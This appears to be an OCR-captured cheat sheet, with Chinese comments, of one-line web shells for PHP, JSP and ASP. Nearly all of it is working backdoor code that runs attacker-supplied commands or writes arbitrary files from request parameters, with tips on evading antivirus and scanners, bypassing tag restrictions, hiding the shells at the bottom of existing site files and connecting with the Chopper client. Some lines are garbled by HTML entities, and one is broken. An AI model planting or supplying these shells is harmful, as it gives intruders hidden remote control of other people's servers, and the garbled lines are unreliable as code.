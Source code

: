 ```
array_filter($array1,$func);
?&gt;

&lt;?php usort($_GET,&#39;asse&#39;.&#39;rt&#39;);?&gt; php环境&gt;=&lt;5.6才能用
&lt;?php usort(...$_GET);?&gt;  php环境&gt;=5.6才能用
&lt;?php eval($_POST1);?&gt; 
&lt;?php if(isset($_POST[&#39;c&#39;])){eval($_POST[&#39;c&#39;]);}?&gt; 
&lt;?php system($_REQUEST1);?&gt; 
&lt;?php ($_=@$_GET1).@$_($_POST1)?&gt; 
&lt;?php eval_r($_POST1)?&gt; 
&lt;?php @eval_r($_POST1)?&gt;//容错代码 
&lt;?php assert($_POST1);?&gt;//使用Lanker一句话客户端的专家模式执行相关的PHP语句 
&lt;?$_POST[&#39;c&#39;]($_POST[&#39;cc&#39;]);?&gt; 
&lt;?$_POST[&#39;c&#39;]($_POST[&#39;cc&#39;],$_POST[&#39;cc&#39;])?&gt; 
&lt;?php @preg_replace(&#34;/[email]/e&#34;,$_POST[&#39;h&#39;],&#34;error&#34;);?&gt;/*使用这个后,使用菜刀一句话客户端在配置连接的时候在&#34;配置&#34;一栏输入*/:&lt;O&gt;h=@eval_r($_POST1);&lt;/O&gt; 
&lt;?php echo `$_GET[&#39;r&#39;]` ?&gt; 

&lt;script language=&#34;php&#34;&gt;@eval_r($_POST[sb])&lt;/script&gt; //绕过&lt;?限制的一句话

&lt;?php (])?&gt;   上面这句是防杀防扫的！网上很少人用！可以插在网页任何ASP文件的最底部不会出错，比如 index.asp里面也是可以的！

&lt;?if(isset($_POST[&#39;1&#39;])){eval($_POST[&#39;1&#39;]);}?&gt;&lt;?php system ($_REQUEST[1]);?&gt; 
加了判断的PHP一句话，与上面的ASP一句话相同道理，也是可以插在任何PHP文件 的最底部不会出错！

&lt;%execute request(“class”)%&gt;&lt;%&#39;&lt;% loop &lt;%:%&gt;&lt;%&#39;&lt;% loop &lt;%:%&gt;&lt;%execute request (“class”)%&gt;&lt;%execute request(“class”)&#39;&lt;% loop &lt;%:%&gt; 
无防下载表，有防下载表可尝试插入以下语句突破的一句话 

&lt;%eval(request(“1″)):response.end%&gt; 备份专用
```

### JSP

```
&lt;%if(request.getParameter(&#34;f&#34;)!=null)(newjava.io.FileOutputStream (application.getRealPath(&#34;\\&#34;)&#43;request.getParameter(&#34;f&#34;))).write (request.getParameter(&#34;t&#34;).getBytes());%&gt; 
提交客户端 
&lt;form action=&#34;&#34; method=&#34;post&#34;&gt;&lt;textareaname=&#34;t&#34;&gt;&lt;/textarea&gt;&lt;br/&gt;&lt;input type=&#34;submit&#34;value=&#34;提交&#34;&gt;&lt;/form&gt;
```

### ASP

```
&lt;%eval(Request.Item[&#34;r00ts&#34;],”unsafe”);%&gt;

&lt;%IfRequest(“1″)&lt;&gt;”&#34;ThenExecuteGlobal(Request(“1″))%&gt; 

&lt;%execute(request(“1″))%&gt; 

&lt;scriptrunat=server&gt;execute request(“1″)&lt;/script&gt; 不用&#39;&lt;,&gt;‘的asp一句话 
```
